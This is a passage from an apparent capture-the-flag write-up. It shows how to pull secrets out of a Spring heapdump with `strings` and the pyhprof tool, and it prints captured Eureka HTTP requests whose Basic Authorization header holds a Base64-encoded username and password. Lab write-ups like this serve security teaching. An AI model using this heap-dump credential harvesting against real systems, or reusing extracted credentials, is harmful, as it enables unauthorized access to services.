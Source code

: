 
Once we have this file, we can analyze it, since this is a binary file, we need to use strings, a good approach is to save the output from strings in a file for a better enumeration of it:

```
strings heapdump > heapdump_strings.txt
```

Now, here's a nice approach, the file is to big so we would need to grep or do some manual enumeration which ends up being a hassle, due to it, we can find a tool that can do the work for us, in this case, we can use the following tool:


PYHPROF: https://github.com/wdahlenburg/pyhprof

Download the tool and use it to find relevant info:

```python
python3 spring_heapdumper.py -f ../heapdump > heapdump_findings.txt
```

If we check the code on a text editor, we can find this at the end of the file:

```http
GET /eureka/apps/delta HTTP/1.1
Accept: application/json, application/*+json
Authorization: Basic RXVyZWthU3J2cjowc2NhclBXRGlzVGhlQjNzdA==
Accept-Encoding: gzip, x-gzip, deflate
Host: localhost:8761
Connection: keep-alive
User-Agent: Apache-HttpClient/5.3.1 (Java/17.0.11)



HTTP/1.1 200 

HTTP/1.1 200 
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
X-Content-Type-Options: nosniff
X-XSS-Protection: 0
Cache-Control: no-cache, no-store, max-age=0, must-revalidate
Pragma: no-cache
Expires: 0
X-Frame-Options: DENY
Content-Length: 0
Date: Thu, 01 Aug 2024 18:29:30 GMT
Keep-Alive: timeout=60
Connection: keep-alive



PUT /eureka/apps/FURNI/eureka:Furni:8082?status=UP&lastDirtyTimestamp=1722535252684 HTTP/1.1
Accept: application/json, application/*+json
Authorization: Basic RXVyZWthU3J2cjowc2NhclBXRGlzVGhlQjNzdA==
Accept-Encoding: gzip, x-gzip, deflate
Content-Length: 0
Host: localhost:8761
Connection: keep-alive
User-Agent: Apache-HttpClient/5.3.1 (Java/17.0.11)
```
